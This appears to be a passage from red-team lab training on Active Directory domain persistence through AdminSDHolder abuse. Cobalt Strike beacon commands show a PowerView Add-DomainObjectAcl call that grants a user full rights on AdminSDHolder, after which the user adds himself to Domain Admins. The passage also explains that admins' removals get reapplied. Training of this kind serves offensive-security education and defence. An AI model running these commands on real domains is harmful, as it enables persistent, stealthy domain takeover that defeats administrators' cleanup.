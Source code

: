The **AdminSDHolder** is a DACL template used to protect sensitive principals from modification. You can test this in the lab by modifying the DACL on the Domain Admins domain group (e.g. give bfarmer full control). Within ~60 minutes, you will find this entry will have vanished. Protected objects include Enterprise & Domain Admins, Schema Admins, Backup Operators and krbtgt.

The AdminSDHolder itself is not protected so if we modify the DACL on it, those changes will be replicated to the subsequent objects. So even if an admin see's a rogue DACL on group such as the DA's and removes it, it will just be reapplied again.

```
beacon> getuid
[*] You are DEV\bfarmer

beacon> run net group "Domain Admins" bfarmer /add /domain
The request will be processed at a domain controller for domain dev.cyberbotic.io.

System error 5 has occurred.

Access is denied.

beacon> getuid
[*] You are DEV\nlamb

beacon> powershell Add-DomainObjectAcl -TargetIdentity "CN=AdminSDHolder,CN=System,DC=dev,DC=cyberbotic,DC=io" -PrincipalIdentity bfarmer -Rights All
```

  

![](https://rto-assets.s3.eu-west-2.amazonaws.com/domain-dominance/adminsdholder.png)

  

Once this propagates, the principal will have full control over the aforementioned sensitive principals.

  

![](https://rto-assets.s3.eu-west-2.amazonaws.com/domain-dominance/da-full-control.png)

  

```
beacon> getuid
[*] You are DEV\bfarmer

beacon> run net group "Domain Admins" /domain
The request will be processed at a domain controller for domain dev.cyberbotic.io.

Group name     Domain Admins
Comment        Designated administrators of the domain

Members

-------------------------------------------------------------------------------
Administrator            nlamb                    
The command completed successfully.

beacon> run net group "Domain Admins" bfarmer /domain /add
The request will be processed at a domain controller for domain dev.cyberbotic.io.

The command completed successfully.

beacon> run net group "Domain Admins" /domain
The request will be processed at a domain controller for domain dev.cyberbotic.io.

Group name     Domain Admins
Comment        Designated administrators of the domain

Members

-------------------------------------------------------------------------------
Administrator            bfarmer                  nlamb                    
The command completed successfully.
```